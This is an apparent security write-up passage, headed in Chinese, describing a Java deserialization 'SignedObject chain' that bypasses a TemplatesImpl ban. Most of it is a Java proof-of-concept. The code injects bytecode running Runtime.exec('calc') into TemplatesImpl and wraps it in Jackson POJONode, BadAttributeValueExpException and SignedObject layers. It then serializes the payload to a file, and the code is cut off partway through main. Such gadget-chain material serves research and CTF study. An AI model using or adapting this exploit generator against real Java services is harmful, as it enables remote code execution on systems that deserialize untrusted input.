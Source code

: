 
### SignObject链

在Templates被ban的情况下 打二次反序列化

```plain
package tongsha;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;


import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URI;
import java.security.*;
import java.util.Base64;

public class SignObjectChain {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templatesImpl, "_name", "fakes0u1");
        setFieldValue(templatesImpl, "_tfactory", null);
        POJONode jsonNodes2 = new POJONode(templatesImpl);
        BadAttributeValueExpException exp2 = new BadAttributeValueExpException(null);
        Field val2 = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val2.setAccessible(true);
        val2.set(exp2,jsonNodes2);
        KeyPairGenerator keyPairGenerator;
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject(exp2,privateKey,signingEngine);
        POJONode jsonNodes = new POJONode(signedObject);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(exp);
        FileOutputStream fout=new FileOutputStream("1.ser");
        fout.write(barr.toByteArray());
        fout.close();
        FileInputStream fileInputStream = new FileInputStream("1.ser");
        System.out.println(serial(exp));
```
